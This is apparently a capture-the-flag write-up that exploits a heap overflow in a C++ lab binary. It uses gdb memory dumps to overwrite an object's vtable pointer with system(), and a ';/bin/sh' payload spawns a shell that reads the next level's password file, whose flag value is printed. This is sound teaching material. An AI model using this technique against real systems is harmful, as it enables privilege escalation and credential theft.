 ## C++ is bad too (level9)

This level's [binary](source.cpp) is written in C++. It contains an _N_ class
which stores a 100-bytes long character buffer and an int. The character buffer
contents are set with the _setAnnotation_ method. So this binary takes at least
one argument (or it exits) and creates two instances of the class with C++'s
"new" keyword. This basically performs an allocation and sets the int member of
the struct to the given value. There is also two operator functions, one for '+'
and an other for '-', which simply adds or substracts the int member values and
returns the result as an int.

So the 2 N instances, let's call them _a_ and _b_, are initialized with 5 and 6
respectively. Then the _setAnnotation_ method is called on _a_ and it copies the
argument provided by the user directly to the member buffer without checking its
length which makes this susceptible to a buffer overflow attack.

Lets see the memory layout after all this:

```shell
# run gdb on the binary
gdb ./level9
# disassemble main to see where to break
(gdb) disass main
...
   0x08048610 <+28>:    movl   $0x6c,(%esp)
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt> # a is allocated
   0x0804861c <+40>:    mov    %eax,%ebx
   0x0804861e <+42>:    movl   $0x5,0x4(%esp)
   0x08048626 <+50>:    mov    %ebx,(%esp)
   0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei> # a is initialized to 5
...
   0x08048632 <+62>:    movl   $0x6c,(%esp)
   0x08048639 <+69>:    call   0x8048530 <_Znwj@plt> # b is allocated
   0x0804863e <+74>:    mov    %eax,%ebx
   0x08048640 <+76>:    movl   $0x6,0x4(%esp)
   0x08048648 <+84>:    mov    %ebx,(%esp)
   0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei> # b is initialized to 6
...
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax
...
# break after a's allocation to get its address
(gdb) b *0x0804861c
Breakpoint 1 at 0x0804861c
# break after b's allocation for the same reason
(gdb) b *0x0804863e
Breakpoint 2 at 0x0804863e
# break after the setAnnotation call
(gdb) b *0x0804867c
Breakpoint 3 at 0x804867c
# start the program with an argument
(gdb) run "aaaabbbbccccddddeeeefghijklm"
Starting program: /home/user/level9/level9 "aaaabbbbccccddddeeeefghijklm"

Breakpoint 1, 0x0804861c in main ()
# see a's address
(gdb) x $eax
0x804a008:      0x00000000
# go to second breakpoint
(gdb) c
Continuing.

Breakpoint 2, 0x0804863e in main ()
# see b's address
(gdb) x $eax
0x804a078:      0x00000000
# go to last breakpoint
(gdb) c
Continuing.

Breakpoint 3, 0x0804867c in main ()
```

Now from there we can see that b is located 112 bytes after _a_. This makes
sense since the allocation function in both cases takes a parameter set to
"0x6c", 108 in decimal, which we can guess is the size of the class instance.
From these informations we can see the memory layout of _a_ and _b_:

```
# print 224 bytes of memory starting from a's address
(gdb) x/56wx 0x804a008
0x804a008:      0x08048848      0x61616161      0x62626262      0x63636363
0x804a018:      0x64646464      0x65656565      0x69686766      0x6d6c6b6a
0x804a028:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a038:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a048:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a058:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a068:      0x00000000      0x00000000      0x00000005      0x00000071
0x804a078:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0d8:      0x00000000      0x00000000      0x00000006      0x00020f21
```

We can see the character buffer from the second word on the first line up to the
end of the second line (from 0x804a00c to 0x804a028), and that it is filled with
our input as expected. At the end of the 7th line there is a word containing the
value 5 (at 0x804a070) which was _a_'s initialization value. _b_ is layed out
simirlarly but with an empty character buffer and its value set to 6 on the last
line (at 0x804a0e0).

Also, both _a_ and _b_ start with the same value 0x08048848. It is the first
word and we can see it again 7 lines down at _b_'s address (0x804a078). If we
check it out, we can see that it points to the address of a function:

```shell
(gdb) x 0x08048848
0x8048848 <_ZTV1N+8>:   0x0804873a
(gdb) x 0x0804873a
0x804873a <_ZN1NplERS_>:        0x8be58955
(gdb) disass _ZN1NplERS_
Dump of assembler code for function _ZN1NplERS_:
   0x0804873a <+0>:     push   %ebp
   0x0804873b <+1>:     mov    %esp,%ebp
   0x0804873d <+3>:     mov    0x8(%ebp),%eax
   0x08048740 <+6>:     mov    0x68(%eax),%edx
   0x08048743 <+9>:     mov    0xc(%ebp),%eax
   0x08048746 <+12>:    mov    0x68(%eax),%eax
   0x08048749 <+15>:    add    %edx,%eax
   0x0804874b <+17>:    pop    %ebp
   0x0804874c <+18>:    ret
End of assembler dump.
```

This really short function takes two parameters, fetches a value at an offset of
0x68 (104) bytes and adds them. This precisely where the numeric value of the
_N_ class is located. So this is the '+' operator for the class. At the next
address, 4 bytes after we have the '-' operator:

```shell
(gdb) x 0x804874e
0x804874e <_ZN1NmiERS_>:        0x8be58955
```

If we overwrite this value by providing the right payload to the binary, the
program segfaults because _b_'s '+' operator is used at the end of the program.

```shell
./level9 "$(python -c 'print "a" * 108 + "bbbb"')"
Segmentation fault (core dumped)
```

So now the exploit. Since the operator is loaded through a pointer to a function
address situated at the start of _b_, what we need to do is overwrite this value
with a valid address whose value is the address of the system function. _b_'s
address is not only where the operator function is located but it is also the
first argument of the operator function (this is what _this_ is, a pointer to
the instance of the class calling the method). So it will be the argument for
system too. Obviously the raw bytes of the address pointing to system are not a
valid shell command, so we need to add a separator and end the string with the
program we want to launch.

| system (4) | padding (104) | _a_'s char buffer (4) | command string (9) |
|------------|---------------|-----------------------|--------------------|
| 0xb7d86060 | 0x909090...   | 0x0804a00c            | ";/bin/sh"         |

```shell
# run the exploit
./level9 $(python -c 'print "\xb7\xd8\x60\x60"[::-1] + "\x90" * 104 + "\x08\x04\xa0\x0c"[::-1] + ";/bin/sh"')
# enjoy
whoami
bonus0
# your flag
cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
